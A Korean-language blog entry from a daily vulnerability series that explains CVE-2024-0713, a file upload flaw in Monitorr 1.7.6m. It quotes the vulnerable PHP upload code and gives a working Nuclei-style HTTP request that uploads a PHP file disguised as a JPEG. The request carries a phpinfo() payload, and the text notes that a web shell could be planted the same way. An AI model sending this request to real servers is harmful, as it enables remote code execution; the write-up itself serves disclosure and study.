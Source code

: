 ```yaml
---
title: "[하루한줄] CVE-2024-0713: Monitorr의 파일 업로드 취약점"
author: ogu123
tags: [Monitorr, file upload, ogu123]
categories: [1day1line]
date: 2024-04-03 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://xz.aliyun.com/t/13401?time__1311=mqmxnDBQ3QuDlxGgx%2BxCqptjQeP7qqPwD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fsearch%3Fkeyword%3Dcve-2024

## Target

- Monitorr 1.7.6m

## Explain

웹사이트와 애플리케이션 상태를 원격으로 모니터링하는 웹 애플리케이션 Monitorr에서 파일 업로드 취약점이 발견되었습니다.

```
/* assets/php/upload.php */
<?php
    $target_dir = "../data/usrimg/";
    $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
    $uploadOk = 1;
    $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    $rawfile = $_FILES["fileToUpload"]["name"];

    echo "<div id='uploadreturn'>";

        if($check !== false) {
                echo "File " . $rawfile . " is an image: " . $check["mime"] ;
                    echo "<br>";
                $uploadOk = 1;
            } 
        // --snip--     
        else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], strtolower($target_file))) {
                echo "<div id='uploadok'>";
                    echo "File ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded to: " . strtolower($target_file) ;
                echo "</div>";
            }  
			 // --snip--
?>
```
사용자가 파일을 업로드할 경우 `assets/php/upload.php` 파일 내의 `getimagesize()` 함수에서 업로드한 파일 형식을 확인합니다.

이때, `getimagesize()` 함수는 파일 확장자나 내용을 검증하지 않고, 파일 MIME 헤더 타입을 통해 파일의 형식을 확인합니다.

따라서, 공격자는 파일 MIME 헤더 타입을 이미지 파일(JPEG)로 속이고 파일에 웹 쉘과 같은 악성코드를 넣어 서버에 업로드 할 수 있습니다.

```
http:
- raw:
  - |
    POST /assets/php/upload.php HTTP/1.1
    Host: {{Hostname}}
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Length: 1194

    ------WebKitFormBoundaryMmx988TUuintqO4Q
    Content-Disposition: form-data; name="fileToUpload"; filename="info.php"
    Content-Type: image/jpeg

    {{base64_decode("/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAgGBgcGBQgHBwcJCQgKDBQNDAsLDBkSE
    w8UHRofHh0aHBwgJC4nICIsIxwcKDcpLDAxNDQ0Hyc5PTgyPC4zNDL/2wBDAQkJCQwLDBgNDRgyIRwhMjI
    yMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjL/wAARCAABAAEDASIAA
    hEBAxEB/8QAHwAAAQUBAQEBAQEAAAAAAAAAAAECAwQFBgcICQoL/8QAtRAAAgEDAwIEAwUFBAQAAAF9AQI
    DAAQRBRIhMUEGE1FhByJxFDKBkaEII0KxwRVS0fAkM2JyggkKFhcYGRolJicoKSo0NTY3ODk6Q0RFRkdIS
    UpTVFVWV1hZWmNkZWZnaGlqc3R1dnd4eXqDhIWGh4iJipKTlJWWl5iZmqKjpKWmp6ipqrKztLW2t7i5usL
    DxMXGx8jJytLT1NXW19jZ2uHi4+Tl5ufo6erx8vP09fb3+Pn6/8QAHwEAAwEBAQEBAQEBAQAAAAAAAAECA
    wQFBgcICQoL/8QAtREAAgECBAQDBAcFBAQAAQJ3AAECAxEEBSExBhJBUQdhcRMiMoEIFEKRobHBCSMzUvA
    VYnLRChYkNOEl8RcYGRomJygpKjU2Nzg5OkNERUZHSElKU1RVVldYWVpjZGVmZ2hpanN0dXZ3eHl6goOEh
    YaHiImKkpOUlZaXmJmaoqOkpaanqKmqsrO0tba3uLm6wsPExcbHyMnK0tPU1dbX2Nna4uPk5ebn6Onq8vP
    09fb3+Pn6/9oADAMBAAIRAxEAPwD5/ooooA//2Tw/PXBocGluZm8oKTs/Pg==")}}
				                      ↑↑<?=phpinfo();?>↑↑
    ------WebKitFormBoundaryMmx988TUuintqO4Q--
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: body
    words:
    - usrimg/info.php
    condition: or
```
공격자는 위 HTTP 요청을 통해 서버에 악의적인 파일을 업로드할 수 있습니다.

multipart/form-data을 사용해 `info.php` 파일을 image/jpeg 형식으로 서버에 업로드합니다. 
이때, `info.php` 파일의 MIME 헤더 타입은 JPEG 되어 있지만 파일 안에는 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있습니다.


![](cve-2024-0713/image1.png)
Request를 통해 파일 안에 PHP 코드(`<?=phpinfo();?>`)가 포함되어 있는 걸 확인할 수 있습니다.

Response로부터 서버에 업로드된 경로를 확인할 수 있습니다.

![](cve-2024-0713/image2.png)
서버에 업로드된 `info.php` 파일에 접근할 경우, `phpinfo()` 함수가 실행되어 서버 php 설정 및 버전 정보를 확인할 수 있습니다.

따라서, 공격자는 취약점을 통해 웹 쉘을 타겟 시스템에 업로드하고 시스템 권한을 획득할 수 있습니다.

## Reference

- [Monitorr](https://github.com/Monitorr/Monitorr)